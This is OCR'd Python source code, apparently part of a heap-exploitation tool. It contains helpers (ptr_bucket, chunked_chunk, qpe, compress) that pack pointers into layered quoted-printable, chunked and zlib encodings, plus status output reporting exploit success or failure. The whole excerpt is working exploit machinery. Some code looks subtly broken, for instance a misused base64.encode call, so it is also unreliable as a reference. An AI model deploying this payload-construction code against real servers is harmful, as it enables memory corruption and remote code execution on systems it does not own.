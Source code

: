 ```python
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
        
        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"

```